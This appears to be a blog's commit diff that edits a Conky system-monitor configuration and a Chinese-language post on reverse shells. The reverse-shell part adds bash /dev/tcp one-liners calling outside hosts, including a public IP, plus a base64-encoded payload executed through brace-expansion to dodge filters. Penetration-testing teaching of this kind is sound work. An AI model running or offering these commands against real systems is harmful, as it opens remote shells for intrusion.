

update

Changed region(s): [[0.0, 0.0, 1.0, 1.0]]

diff --git a/posts/conky-configuration/index.html b/posts/conky-configuration/index.html
@@ -211,24 +211,27 @@ uppercase no
 
 
 TEXT
+${hr 5}
+Time:$alignr${time %Y.%m.%d}$alignc ${time %H:%M:%S}$alignr Week:${time %w}
+${hr 5}
+###############
 ${color red}SYSTEM ${hr 1}
-#Time:$alignr${time %Y.%m.%d}$alignc   ${time %H:%M:%S}$alignr   Week:${time %w}
 Hostname: $alignr$nodename
 Kernel: $alignr$kernel
 Machine:$alignr$machine
 Uptime: $alignr$uptime
 Temp: ${alignr}${acpitemp} °C
 Battery:$alignr${battery BAT0}
-#Battery:$alignr${battery_percent BAT0}%  
 ###############
 ${color green}NETWORK ${hr 1}
-IP:${addr eth0}
-GateWay:$gw_ip
+IP Address:${alignr}${addr eth0}
+GateWay:${alignr}$gw_ip
+DNS Server:${alignr}${nameserver}
 Down ${downspeed eth0} /s ${alignr}Up ${upspeed eth0} /s
 #${downspeedgraph eth0 25,107} ${alignr}${upspeedgraph eth0 25,107}
 Total ${totaldown eth0} ${alignr}Total ${totalup eth0}
 #############
-${color #9932CC}MEMORY ${hr 1}
+${color purple}MEMORY ${hr 1}
 Ram ${alignr}$mem / $memmax ($memperc%)
 ${membar 4}
 swap ${alignr}$swap / $swapmax ($swapperc%)
@@ -238,10 +241,9 @@ ${top_mem name 1}$alignr ${top_mem mem 1}
 ${top_mem name 2}$alignr ${top_mem mem 2}
 ${top_mem name 3}$alignr ${top_mem mem 3}
 ##############
-${color #ffd700}CPU ${hr 1}
+${color orange}CPU ${hr 1}
 Frequency: ${alignr}${freq dyn} MHz
 Processes: ${alignr}$processes ($running_processes running)
-Load: ${alignr}$loadavg
 CPU1 ${alignr}${cpu cpu1}%
 ${cpubar 4 cpu1}
 CPU2 ${alignr}${cpu cpu2}%
@@ -253,9 +255,9 @@ ${top name 3}$alignr${top cpu 3}
 ##############
 ${color grey}FILE SYSTEM ${hr 1}
 Disk I/O:$diskio
-Root: ${alignr}${fs_free /} / ${fs_size /}
+/root: ${alignr}${fs_free /} / ${fs_size /}
 ${fs_bar 4 /}
-Home: ${alignr}${fs_free /home} / ${fs_size /home}
+/home: ${alignr}${fs_free /home} / ${fs_size /home}
 ${fs_bar 4 /home}
 #############
 </code></pre>

diff --git a/posts/reverse-shell/index.html b/posts/reverse-shell/index.html
@@ -134,8 +134,18 @@
 
 <h3 id="0x02-bash">0x02 Bash</h3>
 
-<pre><code>/bin/bash -i &gt;&amp; /dev/tcp/10.10.10.10/8888 0&gt;&amp;1
+<pre><code>bash -i &gt;&amp; /dev/tcp/10.10.10.10/8888 0&gt;&amp;1
 注：这个由解析shell的bash完成，有些时候不支持
+
+reber@wyb:~$ cat tmp.txt 
[1 lines of base64/hex data omitted]
+reber@wyb:~$ cat tmp.txt |base64 -d
+/bin/bash -i &gt;&amp; /dev/tcp/114.115.183.86/6666 0&gt;&amp;1
+reber@wyb:~$ 
+reber@wyb:~$ {cat,tmp.txt}|{base64,-d}|{bash,-i}
+reber@wyb:~$ /bin/bash -i &gt;&amp; /dev/tcp/114.115.183.86/6666 0&gt;&amp;1
+reber@wyb:~$ exit
+reber@wyb:~$ 
 </code></pre>
 
 <h3 id="0x03-crontab">0x03 crontab</h3>
